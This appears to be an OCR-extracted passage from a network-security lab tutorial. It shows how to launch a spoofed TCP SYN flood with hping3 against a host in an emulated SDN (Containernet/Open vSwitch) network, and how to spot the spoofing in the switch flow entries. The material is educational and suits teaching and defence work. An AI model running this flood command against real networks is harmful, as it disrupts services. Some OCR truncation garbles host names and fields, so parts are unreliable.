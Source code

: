 ```
$ ovs-ofctl dump-flows s
```
3. Start flooding from host _h1_ to _h_.

```
From the x-terminal window, send spoofed tcp syn-flood packets from h1 to h2 with random source IP to
the h2 node:
```
```
$ hping3 10.0.0.2 -c 10000 -S --flood --rand-source -V
```
4. In a separate terminal, check openvswitch flow entries

```
$ ovs-ofctl dump-flows s
```
```
Verify if we have successfully attempted DOS attack on SDN controller. The output may be something
like the follow, in which it shows four continuously captured packets:
```
```
cookie=0x0, duration=0.066s, table=0, n_packets=0, n_bytes=0,
idle_timeout=10,priority=65535,tcp,in_port="s1-eth1",vlan_tci=0x0000,
dl_src=00:00:00:00:00:01,
dl_dst=00:00:00:00:00:02,nw_src=16.66.66.28,nw_dst=10.0.0.2,nw_tos=0,
tp_src=58949,tp_dst=
actions=mod_dl_dst:00:00:00:00:00:02,output:"s1-eth2"
cookie=0x0, duration=0.066s, table=0, n_packets=0, n_bytes=0,
idle_timeout=10,priority=65535,tcp,in_port="s1-eth1",vlan_tci=0x0000,
dl_src=00:00:00:00:00:01,
dl_dst=00:00:00:00:00:02,nw_src=81.24.27.139,nw_dst=10.0.0.2,nw_tos=0,
tp_src=59448,tp_dst=
actions=mod_dl_dst:00:00:00:00:00:02,output:"s1-eth2"
cookie=0x0, duration=0.066s, table=0, n_packets=0, n_bytes=0,
idle_timeout=10,priority=65535,tcp,in_port="s1-eth1",vlan_tci=0x0000,
dl_src=00:00:00:00:00:01,
dl_dst=00:00:00:00:00:02,nw_src=99.79.229.144,nw_dst=10.0.0.2,nw_tos=0,
p_src=59449,tp_dst=0 actions=mod_dl_dst:00:00:00:00:00:02,output:"s1-eth2"
cookie=0x0, duration=0.066s, table=0, n_packets=0, n_bytes=0,
idle_timeout=10,priority=65535,tcp,in_port="s1-eth1",vlan_tci=0x0000,
dl_src=00:00:00:00:00:01,
dl_dst=00:00:00:00:00:02,nw_src=150.151.121.171,nw_dst=10.0.0.2,nw_tos=0,
tp_src=59450,tp_dst=
actions=mod_dl_dst:00:00:00:00:00:02,output:"s1-eth2"
```
```
In this example, you can observe that there are four different source IP addresses ( nwsrc ):
```

```
16.66.66.28, 81.24.27.139, 99.79.229.144, and 150.151.121.171 transmitted from the same MAC address
“ dlsrc =00:00:00:00:00:01”. It is a strong indication that h1 is spoofing other nodes to generate excessive
amount of network traffic.
Now ping from host h4 to host h9 from same containernet environment.
```
```
$ containernet> h4 ping h
```
```
We should be able to see ICMP ”destination Host Unreachable” response for some time. This demonstrates
that the SDN controller was flooded and cannot respond for any new incoming new flows.
Now, you can stop the flooding by killing the hping3 using Ctrl+C in h1 ’s x-terminal. After waiting for
few more seconds, the service will resume and we could see valid ping responses from h9 back to h4. This
```